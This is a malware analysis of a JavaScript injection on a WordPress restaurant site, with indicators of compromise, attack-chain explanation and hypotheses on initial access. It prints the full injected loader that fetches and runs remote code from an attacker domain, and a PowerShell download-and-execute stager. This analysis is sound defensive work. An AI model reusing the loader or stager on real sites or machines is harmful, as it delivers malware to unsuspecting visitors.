




## breakersfwb.com Drive-By Target Analysis
*7 Sept 2025, R. Halim*

This document outlines a more detailed analysis into the JavaScript injection shown on `https://www.breakersfwb.com`.

> **WARNING!** Do not directly interact with any IOCs, code samples, or malicious payloads outside of a controlled and
> isolated environment.


## Relevant Indicators of Compromise (IOCs)

| Type   | Indicator                                                        |
|--------|------------------------------------------------------------------|
| Domain | `getfix[.]win`                                                   |
| Domain | `ncloud[.]icu`                                                   |
| Domain | `2no.co`                                                         |
| IP     | `155[.]94.155.25`                                                |
| URL    | `https://getfix[.]win/jsrepo?rnd=<random_number>&ts=<timestamp>` |
| URL    | `https://ncloud.icu/?ref=<target_domain>`                        |


## Analysis

Likely through a WordPress theme injection, it was discovered that every page had a JavaScript `<script>` tag inserted
in the HTML body, which holds a [IIFE](https://developer.mozilla.org/en-US/docs/Glossary/IIFE) that is executed as soon
as the webpage loads in the victims browser. In short, a block of code is defined as a function, then immediately
invoked without naming the function. Below are the contents of the JavaScript block, which shows the next sequence to
load malicious JavaScript into the browser.

```html
<script>
(function() {
    if (document.readyState !== 'loading') {
        loadScript();
    } else {
        document.addEventListener('DOMContentLoaded', loadScript, {once: true});
    }

    function loadScript() {
        var url = 'https://getfix.win/jsrepo?rnd=' + Math.random() + '&ts=' + Date.now();
        
        fetch(url, {
            method: 'GET',
            cache: 'no-store',
            credentials: 'same-origin'
        })
        .then(response => {
            if (!response.ok) throw new Error('HTTP ' + response.status);
            return response.text();
        })
        .then(data => {
            var script = document.createElement('script');
            script.textContent = data.trim();
            document.head.appendChild(script);
            
            if (document.readyState === 'complete' || document.readyState === 'interactive') {
                document.dispatchEvent(new Event('DOMContentLoaded'));
            }
        })
        .catch(error => {
            console.warn('Script load failed:', error.message);
        });
    }
})();
</script>
```

As shown here, the `loadScript()` function creates a fetch request to `https://getfix[.]win/jsrepo`, which injects some
parameters using `Math.random()` and `Date.now()`. This is possibly so that the threat actors are able to track which
victims have contacted this domain. 

However, this domain only selectively returns JavaScript code, based on the User-Agent string sent to the URL. Namely,
JavaScript is only returned when the User-Agent indicates the OS is running Windows, which can be tested by utilizing
Chrome DevTools and Network Conditions to change the user agent.


*Figure 1. User agent using the "Chrome - Mac" profile*


*Figure 2. User agent using the "Chrome - Windows" profile. Note the presence of obfuscated JavaScript.*

It is worth noting that the payload this returns is dynamic and seems to be actively updated over time.

This obfuscated JavaScript is then injected into another `<script>` tag in the DOM; this is, at this point, all done
client side and not from the WordPress template PHP injecting more code. This code is heavily obfuscated, but the
[Obfuscator.io Deobfuscator tool](https://obf-io.deobfuscate.io/) available online is able to deobfuscate most of the
code, a full copy of which can be found in [artifacts/scripts/getwin-js-deobfuscate.js.bak](./artifacts/scripts/getwin-js-deobfuscate.js.bak).


*Figure 3. Deobfuscator Tool*

This JavaScript code injects an `<iframe>` into the DOM `<body>` (the source of this iframe is `https://ncloud[.]icu?ref=www.breakersfwb.com`),
which loads a fake Cloudflare verification page that overlays on top of the Breakers website. This technique is quite
sophisticated, as it utilizes the (presumed) legitimate trust of the Breakers website without an obvious redirect to a
malicious domain. (Notice how the URL in the browser stays at `breakersfwb.com` instead of changing). The "legitimacy"
of this fake Cloudflare verification page is furthered because of the `ref` URL parameter that gets passed by the
injected JavaScript; it takes the current domain you are visiting to add to the splash page, and can be observed if you
directly navigate to the underlying domain in the iframe.


*Figure 4. Fake Cloudflare Verification. Note the inclusion of "www.breakersfwb.com"*

From here, the victim is asked to click the fake Turnstile checkbox, which then copies a malicious PowerShell command
which the victim would then run in the Windows Run dialog, which will download and execute another stager that runs on
the victim's local machine.

```ps
# this PowerShell command gets copied to the clipboard upon checking the fake verification box.
powershell -w h -nop -c iex(iwr -Uri 155.94.155[.]25 -UseBasicParsing)
```

Based on a quick analysis of the ran PowerShell command, it pulls another PowerShell script which is executed, which
downloads shellcode that is executed on the victim machine. Further analysis can be started from the *References* section.


## Initial Access Hypotheses

While we were able to analyze what happens between the injected JavaScript being loaded into the webpage to victim
machine execution, the question stands... how did the initial `<script>` tag end up in the first place?

Three possible hypotheses arise, each based on my personal experience with WordPress site administration.

1. A WordPress plugin installed on the site was compromised
2. The current WordPress theme was compromised, and custom code was added
3. A user that has access to this site's WordPress admin was compromised, and threat actors used this user to add code

### Hypothesis 1: WordPress Plugin

A [WordPress plugin](https://developer.wordpress.org/plugins/intro/what-is-a-plugin/) extends the base functionality of
a standard WordPress install with new functions. Normally, for website admins, this may range from custom components,
such as a contact form, to optimizing how WordPress processes different information. What is important is that these
plugins are often developed by third parties (e.g. *not* developed by the developers of WordPress themselves), and so
may not have the same coding standards as WordPress.

This, combined with potentially outdated PHP versions or exploits against WordPress itself, opens up attack vectors for
attackers to compromise a WordPress site. For example, an outdated plugin installed on the Breakers may have been exploited
to either give attackers access to the backend, or allow for what is called a stored [Self-XSS](https://en.wikipedia.org/wiki/Self-XSS)
attack, where the JavaScript code is stored, rendered in the HTML that is sent to the client, and when the browser reads
the HTML, executes the JavaScript code.

To further prove or disprove this hypothesis, one would likely need to know the versions of the plugins running on this
WordPress instance, and compare it to published CVEs against these plugins. For custom developed plugins, code review
would need to be accomplished to ensure that code follows best security practices.

To mitigate future kinds of attacks, recommendations would include installing a WordPress security plugin, installing
an antimalware scanner on the hosting infrastructure, and ensuring that plugins are kept up-to-date.


### Hypothesis 2: WordPress Theme

A [WordPress theme](https://developer.wordpress.org/themes/getting-started/what-is-a-theme/) allows the owner of a WordPress
website to customize the design of their website. In essence, it controls the styles and layout of a website, which can
also include adding additional HTML.

Based on some earlier analysis (source where?), this WordPress site is using a custom theme, which isn't uncommon. What
may have happened is that the theme was updated to include the malicious `<script>` tag in every page, which often results
from a change in the theme's `theme.php` file to do so. This would be in conjunction with either the first hypothesis
(in which an attacker would need to exploit a plugin to gain access to the backend), or with the third hypothesis (in
which an attacker would need to gain access to a user's login credentials).

To further prove or disprove this hypothesis, one would need to look at the currently installed theme's files and ensure
that there is no malicious code added to the theme files.


### Hypothesis 3: User Brute-Forcing

WordPress allows for multiple users to administer the website. While there are many ways for an instance to disclose
which users are registered on the site, one way that was found was through the `/wp-json` endpoint. This endpoint was
introduced as part of the introduction of the Block Editor, the new implementation of the default WordPress editor. This
allows both built-in blocks and blocks provided by plugins to interact with WordPress' backend using a [JSON REST API](https://developer.wordpress.org/rest-api/).

By navigating to `https://www.breakersfwb.com/wp-json/wp/v2/users`, anyone can, without logging in, see the registered
users of this WordPress site. This is critical because it provides OSINT information about the users that may manage
this website, and their associated user IDs. This makes it easier to conduct blatant username/password guessing (more
likely than not, WordPress usernames are the same as their slugs as disclosed by this endpoint), or could be used in
combination with other OSINT techniques to conduct a phishing campaign (for example, you could paste the name provided
in this API to, say, Facebook or Linkedin).

There isn't a default, built-in way to disable this endpoint [as it is by design](https://www.reddit.com/r/ProWordPress/comments/1clp2dm/comment/l2v1nu2),
especially since there are other methods to disclose usernames of this WordPress site. However, there are ways to extend the functionality of WordPress to disable this specific endpoint. Another recommendation would be to change passwords of all users on the Breakers website, and install a plugin
that augments the login features of WordPress to prevent brute forcing of login pages among other features. For example,
the popular plugin (All-In-One Security)[https://wordpress.com/plugins/all-in-one-wp-security-and-firewall] bundles
multiple security features into one plugin at the application layer.


## References

- [tria.ge Public Analysis Report](https://tria.ge/250908-c4qkga1xhx/behavioral1)
- [tria.ge Sandbox Report](./artifacts/ncloud[.]icu-sandbox-report.pdf)
- [tria.ge pcap](./artifacts/ncloud[.]icu-sandbox-capture.pcapng)